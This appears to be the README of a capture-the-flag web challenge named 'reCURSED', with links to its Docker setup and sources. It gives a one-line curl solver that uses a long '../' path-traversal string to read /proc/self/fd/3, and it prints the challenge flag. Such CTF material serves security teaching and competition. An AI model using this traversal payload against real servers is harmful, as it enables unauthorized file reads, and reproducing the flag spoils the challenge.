 # reCURSED

Author: xhalyl

## Description

![Description](./Description.gif)

## Requirements

- Docker: [Dockerfile](./challenge/Dockerfile)
- docker-compose: [docker-compose](./challenge/docker-compose.yml)

## Sources
  (Public Sources)
- [challenge](./challenge)

## Solver
`curl http://challenge.site/?image=$(python -c "print('..'*986+'/'*986+'..'*986+'/'*986)")proc/self/fd/3 `

## Flag
Securinets{CL0S3_TH3_D00R_N3XT_TIME!}